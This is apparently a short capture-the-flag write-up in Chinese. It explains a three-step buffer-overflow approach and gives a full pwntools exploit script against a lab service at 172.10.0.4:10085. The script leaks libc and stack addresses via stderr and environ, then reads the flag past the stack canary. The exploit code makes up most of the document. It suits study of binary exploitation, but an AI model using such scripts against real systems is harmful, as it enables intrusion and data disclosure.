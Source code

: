这里我们可以看见有三次溢出的机会，我们可以依次溢出libc，栈，然后利用canary相对于栈的偏移进行输入，从而绕过canary

```python
from pwn import *
import sys

io = remote('172.10.0.4',10085)
libc = ELF('./libc-2.23.so')
context(os = 'linux', arch = 'amd64', log_level = 'debug')

stderr = 0x6020E0
payload = b'a'*0x128 + p64(stderr)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
stdree_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(type(stdree_addr),hex(stdree_addr))
libc_base = stdree_addr - libc.sym['_IO_2_1_stderr_']

environ = libc_base + libc.sym['environ']
payload = b'a' * 0x128 + p64(environ)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
stack_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))

flag = stack_addr - 0xf8 -0x80
payload = b'a' * 0x128 + p64(flag)
io.sendlineafter("What's your name?",'dssb')
io.sendlineafter('What do you want to do?',payload)
io.interactive()
```


